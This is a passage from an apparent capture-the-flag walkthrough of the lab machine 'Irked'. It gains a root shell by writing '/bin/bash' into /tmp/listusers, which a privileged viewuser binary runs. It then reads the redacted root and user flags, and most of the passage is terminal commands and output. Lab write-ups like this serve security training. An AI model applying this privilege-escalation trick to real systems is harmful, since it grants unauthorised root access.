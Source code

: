 <br />
Judging by the sh from the first run and the user not from the second run, it could be looking for some kind of bash script.  Try injecting /bin/bash into the /tmp/listusers file.

{% raw %}
```sh
ircd@irked:/dev/shm$ echo '/bin/bash' > /tmp/listusers
echo '/bin/bash' > /tmp/listusers
ircd@irked:/dev/shm$ /usr/bin/viewuser
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-02-02 00:51 (:0)
root@irked:/dev/shm# whoami
whoami
root
```
{% endraw %}

<br />
Get the root.txt file.

{% raw %}
```sh
root@irked:/dev/shm# cat /root/root.txt
cat /root/root.txt
<redacted>
root@irked:/dev/shm# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:5d:1c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.117/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:5d1c/64 scope global mngtmpaddr dynamic 
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb9:5d1c/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}

<br />
Get the user.txt file.

{% raw %}
```sh
root@irked:/home/djmardov# cat user.txt
cat user.txt
<redacted>
root@irked:/home/djmardov# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:5d:1c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.117/24 brd 10.10.10.255 scope global eth0
```